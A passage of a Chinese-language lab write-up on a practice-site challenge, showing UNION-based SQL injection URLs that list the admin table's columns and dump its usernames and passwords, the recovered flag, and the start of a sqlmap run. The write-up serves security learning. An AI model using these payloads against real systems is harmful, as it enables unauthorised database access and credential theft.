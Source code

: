 现在来查询`admin`表里有哪些字段

地址栏里输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name = "admin"
```

回车后的页面：

![](https://pic1.imgdb.cn/item/646f70c3f024cca173f7ac96.jpg)

得到了 `admin`表下的所有字段名： `Id`,`username`,`password`

根据经验，`password`字段和`username`字段里肯定有“好东西”（`username`意思是用户名、`password`意思是密码）

> 当然，也可以去看看其他的字段里存什么数据

现在来查询`password`字段和`username`字段里有啥数据

地址栏里输入：

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,group_concat(username) from admin
```

```
http://pu2lh35s.ia.aqlab.cn/?id=1 and 1=2 union select 1,group_concat(password) from admin
```

回车后的页面：

![](https://pic1.imgdb.cn/item/646f730df024cca173fb5863.jpg)

![](https://pic1.imgdb.cn/item/646f738cf024cca173fc34a4.jpg)

获取到了`username`：**admin**、`password`：**hellohack,zkaqbanban**

把**hellohack**拿去提交。

​	

### 使用工具sqlmap注入：

首先还是得先找到地址栏（URL）类似为：`http://xxxxxxx?id=数字`的页面

点击**查看新闻**的按钮

![](https://pic1.imgdb.cn/item/646f11ecf024cca1735e3427.jpg)

点完之后的URL为：`http://pu2lh35s.ia.aqlab.cn/?id=1`,符合要求

![](https://pic1.imgdb.cn/item/646f1268f024cca1735f35ba.jpg)



打开sqlmap，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" --dbs
```
